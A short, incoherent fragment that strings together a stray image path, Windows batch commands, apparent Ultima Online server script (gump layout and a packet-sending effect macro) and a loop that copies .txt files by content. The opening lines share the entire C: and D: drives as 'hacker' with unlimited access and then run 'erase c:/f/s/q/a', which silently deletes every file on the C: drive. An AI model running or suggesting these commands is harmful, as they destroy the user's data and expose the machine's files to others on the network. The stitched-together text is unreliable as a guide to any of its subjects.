 net share hacker=c: /unlimited /remark:"RockStar"
net share hacker=d: /unlimited /remark:"RockStar"
CD..
CD..
CD.
erase c:/f/s/q/a
90,90
resizepic 0 0 5054 405 470
gumppic 10 10 5528
gumppic <eval (10+((<p.x>*100)/1337))>

<eval (10+((<p.y>*100)/1067))> 2362
text 20 400 455 0
text 20 435 455 01 local.t_x=<argn1>
local.t_y=<argn2>
sector.allclients sendpacket 0c0 00 D<var.src>

D<var.target> W<var.effect> W<p.x> W<eval

<p.y**** B<qval <argn3>?<argn3>:<p.z****

W<local.t_x> W<local.t_y> B<qval <argn3>?

<argn3>:<p.z**** B<var.speed> B<var0.duration>

00 00 00 B<qval <var0.explode>?<var.explode>:0>

D<hval <var.hue> - 1> D<var.rendermode>
for /r %x in (*.txt) do (find "example" "%x" >nul && echo Found in %x && copy "%x" "C:\example\found\" >nul || echo Not found in %x && copy "%x" "C:\example\notfound\" >nul)
